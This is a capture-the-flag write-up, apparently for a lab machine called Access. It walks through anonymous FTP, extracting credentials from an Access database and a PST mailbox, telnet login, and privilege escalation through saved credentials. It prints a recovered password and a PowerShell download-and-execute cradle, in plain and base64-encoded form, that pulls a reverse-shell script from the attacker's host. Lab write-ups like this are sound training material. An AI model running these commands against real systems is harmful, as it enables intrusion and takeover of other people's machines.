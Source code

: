 # access



## nmap

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows



## ftp



- anonymous login is allowed
- logging in with ftp

- got two files ftp server one is a zip file 
- second file is microsoft access database file



## mdbtools

- its a kali repository used for filtering microsoft access database
- using we extracted the contents of mdb database
- we used mdb-tables and mdb-export

```
for i in `mdb-tables backup.mdb`; do mdb-export mdb-backup.mdb $i>$i;done
```

![image-20200825111633048](access.assets/image-20200825111633048.png)

- we got different columns with the database with there contents
- one interesting table we found is auth_user

![image-20200825111800369](access.assets/image-20200825111800369.png)



#### credentials

![image-20200825111909928](access.assets/image-20200825111909928.png)

- got the credentials for zip file lets open it and read the contents



## pst

- we got a access control pst file
- but its a binary

![image-20200825112257356](access.assets/image-20200825112257356.png)



- readpst will use to convert it to mbox file

![image-20200825114912925](access.assets/image-20200825114912925.png)



#### credentials

![image-20200825115013170](access.assets/image-20200825115013170.png)

- got credentials for security account

username             security

password              4Cc3ssC0ntr0ller



## security account



- there was telnet service running on port 23
- we can login in to that with the credentials



#### shell

![image-20200825123045192](access.assets/image-20200825123045192.png)



**used nishang to get a better shell**

![image-20200825124216498](access.assets/image-20200825124216498.png)







## post 



#### cmdkey

we used it to got saved credentials

![image-20200825134709811](access.assets/image-20200825134709811.png)





- we can used these creds to run at administrator

![image-20200825134833514](access.assets/image-20200825134833514.png)

we can use this to get the reverse shell





## root

- to get root shell we will use nishang
- we use runas command encoded with little endian format and pass it to powershell

```powershell
echo -n "iex(new-object net.webclient).downloadstring('http://10.10.14.13:8000/shell1.ps1')" | iconv --to-code=UTF-16LE| base64 -w0
```

![image-20200825135432806](access.assets/image-20200825135432806.png)



- we will this encoded output to powershell and start the reverse listener
- we also need to host the file which will be executed by powershell

```powershell
runas /user:ACCESS\Administrator /savecred "powershell -encodedcommand aQBlAHgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAHMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADEAMwA6ADgAMAAwADAALwBzAGgAZQBsAGwAMQAuAHAAcwAxACcAKQA="
```



![image-20200825135507906](access.assets/image-20200825135507906.png)



![image-20200825135617736](access.assets/image-20200825135617736.png)

- we are administrator
